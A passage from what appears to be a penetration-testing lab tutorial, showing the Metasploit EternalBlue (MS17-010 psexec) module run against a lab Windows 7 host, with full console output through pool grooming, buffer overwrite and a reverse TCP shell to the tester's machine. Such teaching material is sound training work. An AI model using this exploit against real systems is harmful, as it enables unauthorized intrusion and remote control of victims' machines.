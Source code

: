 ```shell-session

Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Once everything is set and ready to go, we can proceed to launch the attack. Note that the payload was not set here, as the default one is sufficient for this demonstration.

#### MSF - Exploit Execution

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-13 21:37:21 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter> shell

C:\Windows\system32>
```
